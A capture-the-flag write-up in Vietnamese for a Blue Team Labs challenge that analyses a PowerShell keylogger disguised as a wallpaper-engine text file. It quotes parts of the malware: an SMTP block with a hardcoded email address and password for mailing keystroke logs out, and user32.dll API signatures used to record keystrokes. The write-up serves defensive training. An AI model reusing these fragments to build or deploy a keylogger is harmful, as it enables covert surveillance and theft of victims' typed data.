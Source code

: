 ## Description
> A suspicious PowerShell script was found on one of our endpoints. Can you work out what it does?
## Link challenge
> https://blueteamlabs.online/home/challenge/powershell-analysis-keylogger-9f4ab9a11c
## Solution
- ***Câu 1 : What is the SHA256 hash value for the PowerShell script file?***
- Sau khi tải file về và giải nén ta thu được 1 tệp tên `HDWallpaperEngine.txt` bên trong chứa các lệnh thực thi powershell
```
┌──(kali㉿kali)-[~/Downloads]
└─$ sha256sum HDWallpaperEngine.txt 
e0b7a2ad2320ac32c262aeb6fe2c6c0d75449c6e34d0d18a531157c827b9754e  HDWallpaperEngine.txt
```
> A : e0b7a2ad2320ac32c262aeb6fe2c6c0d75449c6e34d0d18a531157c827b9754e

- ***Câu 2 : What email address is used to send and receive emails?***
- Quan sát nội dung bên trong 
```
$TimesToRun = 2
$RunTimeP = 1
$From = "chaudhariparth454@gmail.com"
$Pass = "yjghfdafsd5464562!"
$To = "chaudhariparth454@gmail.com"
$Subject = "Keylogger Results"
$body = "Keylogger Results"
$SMTPServer = "smtp.mail.com"
$SMTPPort = "587"
$credentials = new-object Management.Automation.PSCredential $From, ($Pass | ConvertTo-SecureString -AsPlainText -Force)
```
- Có thể thấy địa chỉ email là chaudhariparth454@gmail.com
> A : chaudhariparth454@gmail.com
- ***Câu 3 : What is the password for this email account?***
- Tương tự tại dòng thứ 4 
> A : yjghfdafsd5464562!
- ***Câu 4 : What port is used for SMTP?***
- Kết quả nằm ở dòng thứ 9 : `$SMTPPort = "587"`
> A : 587
- ***Câu 5 : What DLL is imported to help record keystrokes?***
- Tại đây `function Start-KeyLogger($Path="$env:temp\keylogger.txt") `, `$env:temp:` Biến môi trường này trỏ đến thư mục tạm thời của hệ thống và `keylogger.txt`: Tên tệp văn bản sẽ lưu trữ các phím bấm.
- Ta lại thấy
```
 # Signatures for API Calls
  $signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
public static extern short GetAsyncKeyState(int virtualKeyCode); 
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@
```
- [DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)]: Khai báo sử dụng hàm từ user32.dll, tự động chọn CharSet.
- public static extern short GetAsyncKeyState(int virtualKeyCode);: Khai báo hàm trả về kiểu short (số nguyên ngắn) và nhận một tham số virtualKeyCode kiểu int (số nguyên).
- Chức năng: Hàm này kiểm tra trạng thái của một phím ảo (virtual key) cụ thể, cho biết phím đó có đang được nhấn hay không.
> A : user32.dll
- ***Câu 6 : What directory is the generated txt file put in?***
- Như đã giải thích ở trên tệp sẽ được lưu vào temp
> A : temp

